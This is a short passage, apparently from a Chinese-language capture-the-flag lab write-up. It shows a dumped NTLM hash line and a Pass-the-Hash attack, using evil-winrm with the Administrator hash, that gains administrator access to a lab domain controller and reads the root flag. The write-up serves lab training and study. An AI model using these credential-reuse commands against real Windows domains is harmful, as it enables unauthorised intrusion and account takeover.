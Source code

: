 ```bash
hyh:1106:aad3b435b51404eeaad3b435b51404ee:98ae07bdfd021b71d75f40c64cef14ed:::
...
```

## 6.3 域控制器访问

使用Administrator hash进行Pass-the-Hash攻击：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ evil-winrm -i 192.168.205.177 -u administrator -H bbabdc192282668fe5190ab0c5150b34
...
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami 
confidence\administrator

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
this root  and thank you
```